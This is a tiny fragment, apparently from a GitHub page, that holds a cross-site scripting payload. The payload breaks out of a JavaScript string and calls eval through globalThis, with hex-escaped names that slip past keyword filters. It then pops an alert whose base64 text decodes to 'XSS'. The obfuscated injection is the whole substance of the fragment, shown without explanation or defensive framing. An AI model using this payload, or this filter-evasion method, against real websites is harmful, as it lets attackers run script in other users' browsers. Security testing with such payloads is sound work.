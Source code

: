 # -globalThis-x65-x76-x61-x6c-globalThis-x61-x6c-x65-x72-x74-globalThis-x61-x74-x6f-x62-
';globalThis['\x65\x76\x61\x6c']('globalThis["\x61\x6c\x65\x72\x74"](globalThis["\x61\x74\x6f\x62"]("WFNT"))');//
